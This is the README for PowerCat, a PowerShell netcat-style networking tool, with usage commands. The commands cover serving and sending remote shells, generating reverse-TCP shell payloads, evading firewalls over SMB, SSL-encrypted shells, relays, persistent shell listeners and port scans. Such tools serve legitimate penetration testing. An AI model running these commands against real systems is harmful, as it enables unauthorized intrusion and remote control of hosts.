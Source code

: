 PowerCat
========
######A PowerShell TCP/IP swiss army knife that works with Netcat & Ncat.
Inspired by: https://github.com/besimorhino/powercat
Installation
------------
PowerCat is packaged as a PowerShell module.  You must import the module to use its functions.
###
```powershell
    # Import the functions via the psd1 file:
    Import-Module PowerCat.psd1
```
### Functions & Parameters:
```powershell    
    Start-PowerCat # Starts a listener/server.
    
    -Mode           # Defaults to Tcp, can also specify Udp or Smb.
    -Port           # The port to listen on.
	-PipeName       # Name of pipe to listen on.
	
	-SslCn			# Common name for Ssl encrypting Tcp.
    -Relay          # Format: "<Mode>:<Port/PipeName>"
    -Execute        # Execute a console process or powershell.
    -SendFile       # Filepath of file to send.
    -ReceiveFile    # Filepath of file to be written.
    -Disconnect     # Disconnect after connecting.
    -KeepAlive      # Restart after disconnecting.
    -Timeout        # Timeout option. Default: 60 seconds
	
	Connect-PowerCat # Connects a client to a listener/server.
	
    -Mode           # Defaults to Tcp, can also specify Udp or Smb
	-RemoteIp       # IPv4 address of host to connect to.
    -Port           # The port to connect to.
	-PipeName       # Name of pipe to connect to.
	
	-SslCn			# Common name for Ssl encrypting Tcp.
    -Relay          # Format: "<Mode>:<IP>:<Port/PipeName>"
    -Execute        # Execute a console process or powershell.
    -SendFile       # Filepath of file to send.
    -ReceiveFile    # Filepath of file to be written.
    -Disconnect     # Disconnect after connecting.
    -Timeout        # Timeout option. Default: 60 seconds
```
Basic Connections
-----------------------------------
By default, PowerCat uses TCP and reads from / writes to the console.
###
```powershell
    # Basic Listener:
    Start-PowerCat -Port 443
        
    # Basic Client:
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 443
```
File Transfer
-------------
PowerCat can be used to transfer files using the -SendFile and -ReceiveFile parameters.
###
```powershell
    # Send File:
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 443 -SendFile C:\pathto\inputfile
        
    # Receive File:
    Start-PowerCat -Port 443 -ReceiveFile C:\pathto\outputfile
```
Shells
------
PowerCat can be used to send and serve (Power)Shells using the -Execute parameter.
###
```powershell
    # Serve a shell:
    Start-PowerCat -Port 443 -Execute
        
    # Send a cmd Shell:
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 443 -Execute
```
UDP and SMB
-----------
PowerCat supports more than sending data over TCP. 
###
```powershell
    # Send Data Over UDP:
    Start-PowerCat -Mode Udp -Port 8000
        
    # Send Data Over SMB (easily sneak past firewalls):
    Start-PowerCat -Mode Smb -PipeName PowerCat
```
SSL
-----------
PowerCat generates X509 certificates on-the-fly to provide SSL encryption of TCP connections. 
###
```powershell
    # Serve an SSL-Encrypted (Power)Shell:
    Start-PowerCat -Mode Tcp -Port 80 -SslCn <Certificate Common Name> -Execute
        
    # Connect to an SSL encrypted Ncat listener:
	# Setup *nix with openssl & Ncat:
	# openssl req -X509 -newkey rsa:2048 -subj /CN=PowerCat -days 90 -keyout key.pem -out cert.pem
	# ncat -l -p 80 --ssl --ssl-cert cert.pem --ssl-key key.pem
	
	Connect-PowerCat -Mode Tcp -RemoteIp 10.1.1.1 -Port 80 -SslCn PowerCat 
```
Relays
------
Relays in PowerCat are similar to netcat relays, but you don't have to create a file or start a second process. You can also relay data between connections of different protocols.
###
```powershell
    # UDP Listener to TCP Client Relay:
    Start-PowerCat -Mode Udp -Port 8000 -Relay tcp:10.1.1.16:443
        
    # TCP Listener to UDP Client Relay:
    Start-PowerCat -Port 8000 -Relay udp:10.1.1.16:53
        
    # TCP Client to Client Relay
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 9000 -Relay tcp:10.1.1.16:443
        
    # TCP Listener to SMB Listener Relay
    New-PowerCat -Listener -Port 8000 -Relay smb:PowerCat
```
Generate Payloads
-----------------
Payloads can be generated using the New-PowerCatPayload function. 
###
```powershell
    # Generate a reverse tcp payload that connects back to 10.1.1.15 port 443:
    New-PowerCatPayload -RemoteIp 10.1.1.15 -Port 443 -Execute 
        
    # Generate a tcp payload that listens on port 8000:
    New-PowerCatPayload -Listener -Port 8000 -Execute
```
Misc Usage
----------
PowerCat can also perform port-scans, start persistent listeners, or act as a simple web server.
###
```powershell
    # Basic TCP port scan:
    1..1024 | ForEach-Object { Connect-PowerCat -RemoteIp 10.1.1.10 -Port $_ -Timeout 1 -Verbose -Disconnect }
    
    # Basic UDP port scan:
    1..1024 | ForEach-Object { Connect-PowerCat -Mode Udp -RemoteIp 10.1.1.10 -Port $_ -Timeout 1 -Verbose }
        
    # Persistent listener:
    Start-PowerCat -Port 443 -Execute -KeepAlive
	
	# Simple Web Server:
	Start-PowerCat -Port 80 -SendFile index.html
```
Exiting
----------
In most cases, the ESC key can be used to gracefully exit PowerCat.